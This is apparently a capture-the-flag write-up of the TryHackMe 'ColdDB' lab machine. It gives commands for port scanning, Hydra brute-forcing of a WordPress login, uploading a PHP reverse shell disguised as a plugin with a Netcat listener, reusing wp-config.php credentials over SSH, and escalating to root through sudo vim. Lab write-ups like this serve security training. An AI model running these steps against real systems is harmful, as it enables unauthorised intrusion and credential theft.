 # TryHackMe - ColdDB (Easy)

Detailed walkthrough of the "ColdDB" machine on TryHackMe.  
Objective: Gain root access by moving from web enumeration to privilege escalation via Vim.

---

## Overview

This machine simulates a typical web-to-root scenario. The goal is to exploit a vulnerable WordPress site to gain a foothold, extract credentials, access the system via SSH, and escalate privileges using a misconfigured `vim` binary.

---

## 1. Port Scanning

Initial full TCP port scan:

```bash
nmap -p- -T5 10.10.158.121

Open ports found:

    80 (HTTP)

    4512 (SSH on a non-standard port)

Service/version detection:

nmap -p 80,4512 -sV -A 10.10.158.121 -oN nmap.txt

2. Web Enumeration

Nothing obvious on the homepage. Using Gobuster:

gobuster dir -u http://10.10.158.121 -w /usr/share/wordlists/rockyou.txt

Discovered /Hidden, which contains a message:

    C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. – Philip

This reveals a potential valid username: C0ldd.
3. WordPress Login Brute Force

I first tested common credentials like admin:admin and admin:password — no success.

Trying the username C0ldd manually returned a WordPress error indicating that the password is incorrect, meaning the username is valid.

Brute-force attack with Hydra:

hydra -l C0ldd -P /usr/share/wordlists/rockyou.txt 10.10.158.121 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Incorrect" -V

Login successful. Access to the WordPress admin panel is now available at /wp-admin.
4. Uploading a Reverse Shell

From the WordPress admin panel, I uploaded a Pentestmonkey PHP reverse shell, disguised as a plugin.

However, it didn't appear in the usual plugins folder. After some digging, I found it uploaded here:

/wp-content/uploads/2025/05/shell.php

I started a Netcat listener:

nc -lvnp <PORT>

Triggering the URL launched the reverse shell successfully.
5. SSH Access & User Flag

From the initial shell, I tried reading /home/c0ldd/user.txt but lacked permission.

I searched the WordPress config file:

cat /var/www/html/wp-config.php

It contained database credentials — which also worked via SSH:

ssh -p 4512 c0ldd@10.10.158.121

After connecting, I was able to read the user flag:

cat /home/c0ldd/user.txt

It was Base64-encoded:

echo "RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==" | base64 --decode

→ Felicidades, primer nivel conseguido!
6.  Privilege Escalation

Checked sudo permissions:

sudo -l

Found that vim could be executed as root. Based on GTFOBins:

sudo vim -c ':!/bin/sh'

Confirmed root access with:

whoami
# root

7. Root Flag

Read the root flag:

cat /root/root.txt

It was also Base64-encoded:

echo "wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=" | base64 --decode

→ ¡Felicidades, máquina completada!
  Skills Demonstrated

   - Full-range port scanning with Nmap

   - Web directory fuzzing (Gobuster)

   - WordPress user enumeration & brute-force

   - Reverse shell upload via admin panel

   - Credential harvesting from wp-config.php

   - SSH login on custom port

   - Privilege escalation via sudo + GTFOBins

   - Base64 decoding of flags

